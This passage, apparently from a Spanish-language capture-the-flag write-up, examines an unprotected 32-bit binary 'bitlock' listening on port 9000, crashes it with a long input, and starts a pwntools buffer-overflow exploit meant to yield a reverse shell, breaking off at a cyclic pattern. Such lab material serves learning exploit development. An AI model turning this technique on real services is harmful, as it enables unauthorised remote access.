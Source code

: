 ```css
bitlock: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=5b79b3eebf4e41a836c862279f4a5bc868c61ce7, for GNU/Linux 3.2.0, not stripped
```

esto significa que el binario es un ejecutable de 32 bits, y según `checksec`, no tiene protecciones:

```css
❯ checksec --file=bitlock
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   52 Symbols	 No	0		3		bitlock
```

Ahora vamos a ejecutarlo para un uso normal y ver un poco su funcionalidad:

```css
❯ ./bitlock
Esperando conexiones en el puerto 9000...
```

como vemos está esperando conexiones por el puerto 9000, por lo que probablemente también sea el binario que se encuentra ejecutado en la máquina. También, si nos conectamos mediante `telnet`, y enviamos una cantidad grande de datos:

```css
❯ telnet 127.0.0.1 9000
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
AAAAAAAAAAAAAAAAAA<SNIP>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Connection closed by foreign host.
```

veremos lo siguiente en el binario:

```css
zsh: segmentation fault (core dumped)  ./bitlock
```

Esto significa que presenta una vulnerabilidad de `buffer overflow`, y como el binario no tiene protecciones, podremos armar un exploit que nos permita recibir una conexión al ejecutar una reverseshell en el.

#### Buffer Overflow

Comenzaremos a crear nuestro exploit, para esto empezaremos con la base del mismo:

```python
#!/usr/bin/env python3

from pwn import *

def exploit():

    ip='127.0.0.1'
    port='9000'






    pattern = b'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab'




```